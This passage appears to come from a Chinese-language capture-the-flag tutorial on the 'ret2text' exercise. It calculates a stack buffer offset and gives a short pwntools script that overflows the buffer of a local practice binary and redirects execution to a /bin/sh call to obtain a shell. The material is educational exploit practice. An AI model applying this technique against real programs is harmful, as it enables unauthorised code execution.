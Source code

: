 ![image-20231025223717898](images/16.png)

来算一下EBP的值为0xffffd128，ESP的值为0xffffd0bc，两个的距离是0x6c，所以我们需要填充0x6c个字节，然后再填充/bin/sh的地址

```
from pwn import *
p = process("./ret2text")
# gdb.attach(p)
payload = b'a'*0x6c + b'A' * 0x4 + p32(0x0804863A)

p.sendline(payload)
p.interactive()
```

![image-20231025223928123](images/17.png)
